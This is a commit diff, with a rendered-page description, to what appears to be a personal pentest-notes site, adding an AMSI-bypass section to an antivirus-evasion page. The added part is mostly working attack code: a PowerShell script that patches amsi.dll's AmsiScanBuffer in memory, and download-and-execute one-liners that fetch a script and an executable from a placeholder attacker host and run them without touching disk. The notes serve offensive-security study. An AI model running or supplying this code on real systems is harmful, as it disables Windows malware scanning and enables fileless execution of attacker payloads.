

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/AntivirusEvasion.md, in a window 1280 px wide and 1400 px high, scrolled down 1427 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 2411 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated notes

````diff
--- a/markdown/AntivirusEvasion.md
+++ b/markdown/AntivirusEvasion.md
@@ -66,11 +66,62 @@
 - DLL injection without touching disk
     - Share the DLL remotely with `sudo impacket-smbserver share ./`
 
+## AMSI
+- [Anti-Malware Scanning Interface](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
+- Can be bypassed using a number of tricks, but the scripts are all recognized by AMSI
+    - Techniques here: [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
+    - Thus, we'll need to find the trigger and change the signature with variable renaming, function replacement, or encoding at runtime
+        - Can also use ISESteroids or [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
+    - [amsi.fail](https://amsi.fail/) - Great site for generating obfuscated powershell scripts that break/disable AMSI for current process
+    - However, this won't bypass AMSI at the .net level - [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/]https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/
+        - Thus, we also need the following script to bypass AMSI at the .net level (run with `(new-object system.net.webclient).downloadstring('http://{kali_ip:port}/amsi_rmouse.txt')|IEX`)
+            - This loads and executes the script directly in memory
+
+```
+# Patching amsi.dll AmsiScanBuffer by rasta-mouse
+$Win32 = @"
+
+using System;
+using System.Runtime.InteropServices;
+
+public class Win32 {
+
+    [DllImport("kernel32")]
+    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
+
+    [DllImport("kernel32")]
+    public static extern IntPtr LoadLibrary(string name);
+
+    [DllImport("kernel32")]
+    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
+
+}
+"@
+
+Add-Type $Win32
+
+$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
+$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
+$p = 0
+[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
+$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
+[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
+```
+
+- We now have the ability to run anything we'd like, as long as it doesn't touch disk, which can be done like so:
+
+```
+$data=(New-Object System.Net.WebClient).DownloadData('http://{kali_IP:port}/{exe_binary}');
+$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
+$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
+[{binary_name}.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
+
 ## Thread Injection
 - Operates within the process it's being executed from
 - Rename the variables to bypass string detection
 
 ```
+
 # Import VirtualAlloc to allocate memory
 $code = '
 [DllImport("kernel32.dll")]
````
Also changed, not shown: markdown/Miscellaneous.md (+6 -6 lines).
